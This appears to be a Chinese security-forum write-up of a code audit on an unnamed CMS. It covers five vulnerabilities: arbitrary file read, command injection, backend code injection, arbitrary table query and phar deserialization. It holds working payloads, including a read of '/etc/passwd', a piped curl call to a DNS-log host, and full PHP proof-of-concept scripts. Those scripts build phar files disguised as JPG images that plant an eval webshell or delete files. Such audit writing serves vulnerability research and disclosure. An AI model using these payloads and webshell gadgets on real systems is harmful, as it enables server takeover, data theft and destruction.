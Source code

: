 

# 记一次对某 CMS 系统的代码审计 - 先知社区

记一次对某 CMS 系统的代码审计

- - -

# VUL1-文件读取漏洞

这个函数功能是读取 pdf 显示到网页，但是没有对文件名和路径进行限制，造成任意文件读取  
[![](assets/1708919677-fa41346b4137a3aa3f8db830505cc2a5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219141126-b6c2a73c-ceed-1.png)  
例如，读取 index.php 文件

```bash
file=index.php
```

注意到这段代码限制了只能在当前路径下读取文件

```bash
$files = $this->str_replace_once('/','',$files);//替换开头的/
```

显然这种过滤似乎难不倒任何人

```bash
file=//etc/passwd
```

不过在实战中发现 open\_basedir 限制了目录️  
[![](assets/1708919677-4b0d4d1947eaa79c5479219c206a4bf8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219141218-d60a9398-ceed-1.png)

# VUL2-命令注入漏洞

这个函数使用 LibreOffice 的命令行工具来执行一个 PPT 转换成 PDF，然后显示到页面上  
[![](assets/1708919677-dd5f2b7ec6b86dc12a56bdda2b90158e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219141232-de41d54e-ceed-1.png)  
没有对 file 参数进行验证就直接插入命令里面执行，可以使用管道符进行命令拼接执行  
payload:

```bash
file=||curl 9tkhrb.dnslog.cn||
```

[![](assets/1708919677-0d6f5b10b453525b21de1df1bdd65a22.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219141250-e8b0d624-ceed-1.png)

# VUL3-后台代码注入漏洞

漏洞点在保存网站设置的功能上，它会将设置的内容以序列化的形式写入到`config/wzsz.php`当中  
[![](assets/1708919677-74f960fa8fcb9877738076c5588c0eb8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219141309-f450edde-ceed-1.png)  
设置的内容是保存在 PHP 文件，可以直接插入 php 代码  
[![](assets/1708919677-1870cb01ea942d3dfcd99659807be3ef.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219141318-f9a140e0-ceed-1.png)  
保存设置后，访问 config/wzsz.php 即可执行  
[![](assets/1708919677-edfbe9c5259707c4a2ff7ff604859dfd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219141327-ff1ffcc8-ceed-1.png)

# VUL4-任意数据查询漏洞

漏洞点位于 home 控制器的 cxxsjg 函数，接收参数 bm(表名) 和 id 进行查询并返回结果到页面  
[![](assets/1708919677-ef011e9fa51c9aabb0653241f7e13706.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219141338-054b0764-ceee-1.png)  
表名和 id 是可控的，可以任意传入表名进行查询，前提是包含字段 id  
例如，查询 users 表

```bash
id=1&bm=users
```

[![](assets/1708919677-2015c70c894750d0b8f46179da7a0a37.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219141352-0db7ee1c-ceee-1.png)  
成功查询到用户信息

# VUL5-文件上传结合 phar 反序列化漏洞

## 什么是 phar?

在 PHP 中，Phar（PHP Archive）是一种将多个 PHP 文件、资源和其他文件打包成一个单独的可执行文件的格式。Phar 文件类似于 Java 的 JAR 文件或 Python 的 Egg 文件。

## POC1

FileCookieJar 链任意文件写入，入口点  
[![](assets/1708919677-e1487cf959bcf5b4f0712c4b777b3247.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219141412-198652ec-ceee-1.png)  
`save`函数写入了文件  
[![](assets/1708919677-e5b8c569d7333cfb997b5f037ecaabe6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219141432-25e3cf38-ceee-1.png)  
文件名可控，文件内容就是 cookie 通过 json 加密后的字符  
观察`setCookie`函数发现参数是`SetCookie`类  
[![](assets/1708919677-0c59eb776892e98836fda5a241263ac6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219141448-2f4a5e52-ceee-1.png)  
`SetCookie`的构造函数传入数组  
[![](assets/1708919677-40b5aa8367f91a8a7c7582543ac36dea.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219141459-35803af8-ceee-1.png)  
使用`array_replace`函数替换默认数组字段

```bash
$this->data = array_replace(self::$defaults, $data);
```

也就意味着 cookie 的字段名只能为`defaults`中的字段名  
[![](assets/1708919677-f3e5cc914f01556866a1abb37bdde2e6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219141523-441c1686-ceee-1.png)  
构造的 cookie 如下

```bash
new SetCookie([
        'Name' => 'foo',
        'Domain' => '<?php echo eval($_REQUEST[\'111a\']); ?>',
        'Value'  => 'bar',
        'Expires' => time()]);
```

接着通过`FileCookieJar`类去将 cookie 写入文件即可

```bash
<?php
  require 'vendor/autoload.php';
  use GuzzleHttp\Cookie\FileCookieJar;
  use GuzzleHttp\Cookie\SetCookie;
  $obj = new FileCookieJar('111.php');
  $obj->setCookie(new SetCookie([
      'Name' => 'foo',
      'Domain' => '<?php echo eval($_REQUEST[\'111a\']); ?>',
      'Value'  => 'bar',
      'Expires' => time()]));
  var_dump(serialize($obj));
?>
```

运行之后也是成功写入了文件 111.php  
[![](assets/1708919677-613ca5e95508f73923b9463d783ae77e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219141612-619569ec-ceee-1.png)  
最后打包生成 phar

```bash
<?php
require 'vendor/autoload.php';
  use GuzzleHttp\Cookie\FileCookieJar;
  use GuzzleHttp\Cookie\SetCookie;
  $obj = new FileCookieJar('111.php');
  $obj->setCookie(new SetCookie([
      'Name' => 'foo',
      'Domain' => '<?php echo eval($_REQUEST[\'111a\']); ?>',
      'Value'  => 'bar',
      'Expires' => time()]));
  var_dump(serialize($obj));

  $phar = new Phar('phar.phar');
  $phar -> startBuffering();
  $phar -> setStub('GIF89a'.'<?php __HALT_COMPILER(); ?>');
  $phar ->addFromString('test.txt','test');
  $phar -> setMetadata($obj); 
  $phar -> stopBuffering();
  rename('phar.phar','phar.jpg');
?>
```

CMS 也是自带一个 ueditor，刚好用于上传文件  
[![](assets/1708919677-db8aca4339713bebf0aea8accb5734de.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219141633-6d8c8578-ceee-1.png)  
然后通过前面的任意文件读取漏洞去触发 phar 反序列化  
[![](assets/1708919677-27975820eeba8b71b8ea81c55f980b33.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219141641-729b9392-ceee-1.png)  
成功写入一句话木马  
[![](assets/1708919677-42918511ec67980cf9ae8aa31b6087c2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219141648-76f2acaa-ceee-1.png)

## POC2

XMLWriter 链任意文件删除  
[![](assets/1708919677-c7bc93995a073c5793dedef73126ce8b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219141702-7f0ef998-ceee-1.png)  
XMLWriter 类的销毁函数使用了 unlink 进行删除文件，条件是 PHP\_OS != 'WINNT'即目标系统不能是 windows  
POC 如下：

```bash
<?php
    namespace PhpOffice\Common;
    class XMLWriter {
         public function __construct(){
            $this->tempFileName="111.php";
         }
    }
    $obj = new XMLWriter();
    $phar = new \Phar('phar.phar');
    $phar -> startBuffering();
    $phar -> setStub('GIF89a'.'<?php __HALT_COMPILER(); ?>');
    $phar ->addFromString('test.txt','test');
    $phar -> setMetadata($obj); 
    $phar -> stopBuffering();
    rename('phar.phar','phar.jpg');
```

上传文件，触发 phar 反序列化  
[![](assets/1708919677-0a1e53280152c3cd3343d09dc7c1cda9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219141724-8c80361e-ceee-1.png)  
可以发现 POC1 中的 111.php 成功被删除  
[![](assets/1708919677-660945034046c3a7cc35bca3e0fe0316.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219141732-91379800-ceee-1.png)
